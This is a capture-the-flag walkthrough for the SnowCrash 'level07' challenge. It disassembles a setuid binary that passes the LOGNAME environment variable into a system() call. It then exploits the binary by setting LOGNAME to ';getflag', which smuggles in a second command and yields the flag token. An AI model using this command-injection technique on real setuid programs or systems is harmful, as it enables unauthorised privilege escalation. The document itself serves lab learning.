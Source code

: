 # level07

## Recognition

There is an executable named level07 at the home of user level07 which is owned by flag07
```bash
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
```

When checking `strings` on the executable, we can see the use of `system` and `getenv` calls
```bash 
level07@SnowCrash:~$ strings level07
[...]
getenv
[...]
system
[...]
```

When checking the .rodata section of the program, we can see the strings "LOGNAME" and "/bin/echo %s"
```bash
level07@SnowCrash:~$ readelf -x .rodata level07 

Hex dump of section '.rodata':
  0x08048678 03000000 01000200 4c4f474e 414d4500 ........LOGNAME.
  0x08048688 2f62696e 2f656368 6f202573 2000     /bin/echo %s .
```
</br>
</br>

When disassembled with `objdump`, we can see that it uses the "LOGNAME" string for `getenv` and then recomposes the string "/bin/echo %s" with the environment variable using asprintf. the string is then passed to the `system` call which executes it.
```bash

[...]
08048514 <main>:
 8048514:       55                      push   ebp
 8048515:       89 e5                   mov    ebp,esp
 8048517:       83 e4 f0                and    esp,0xfffffff0
 804851a:       83 ec 20                sub    esp,0x20
 804851d:       e8 ce fe ff ff          call   80483f0 <getegid@plt>
 8048522:       89 44 24 18             mov    DWORD PTR [esp+0x18],eax
 8048526:       e8 b5 fe ff ff          call   80483e0 <geteuid@plt>
 804852b:       89 44 24 1c             mov    DWORD PTR [esp+0x1c],eax
 804852f:       8b 44 24 18             mov    eax,DWORD PTR [esp+0x18]
 8048533:       89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 8048537:       8b 44 24 18             mov    eax,DWORD PTR [esp+0x18]
 804853b:       89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 804853f:       8b 44 24 18             mov    eax,DWORD PTR [esp+0x18]
 8048543:       89 04 24                mov    DWORD PTR [esp],eax
 8048546:       e8 05 ff ff ff          call   8048450 <setresgid@plt>
 804854b:       8b 44 24 1c             mov    eax,DWORD PTR [esp+0x1c]
 804854f:       89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 8048553:       8b 44 24 1c             mov    eax,DWORD PTR [esp+0x1c]
 8048557:       89 44 24 04             mov    DWORD PTR [esp+0x4],eax
 804855b:       8b 44 24 1c             mov    eax,DWORD PTR [esp+0x1c]
 804855f:       89 04 24                mov    DWORD PTR [esp],eax
 8048562:       e8 69 fe ff ff          call   80483d0 <setresuid@plt>
 8048567:       c7 44 24 14 00 00 00    mov    DWORD PTR [esp+0x14],0x0
 804856e:       00 
 804856f:       c7 04 24 80 86 04 08    mov    DWORD PTR [esp],0x8048680     // address of "LOGNAME"
 8048576:       e8 85 fe ff ff          call   8048400 <getenv@plt>
 804857b:       89 44 24 08             mov    DWORD PTR [esp+0x8],eax
 804857f:       c7 44 24 04 88 86 04    mov    DWORD PTR [esp+0x4],0x8048688 // address of "/bin/echo %s"
 8048586:       08 
 8048587:       8d 44 24 14             lea    eax,[esp+0x14]
 804858b:       89 04 24                mov    DWORD PTR [esp],eax
 804858e:       e8 ad fe ff ff          call   8048440 <asprintf@plt>
 8048593:       8b 44 24 14             mov    eax,DWORD PTR [esp+0x14]
 8048597:       89 04 24                mov    DWORD PTR [esp],eax
 804859a:       e8 71 fe ff ff          call   8048410 <system@plt>
 804859f:       c9                      leave  
 80485a0:       c3                      ret
 [...]
```

## Exploitation

For this one, the exploitation part is quite simple, as the content of an environment variable is directly inputted to a `system` call, that the script is owned by flag07, we can use that to execute whatever we want as flag07 user.

We can simply exploit this program to get our flag by doing :
```bash
level07@SnowCrash:~$ export LOGNAME=';getflag'
level07@SnowCrash:~$ ./level07 

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
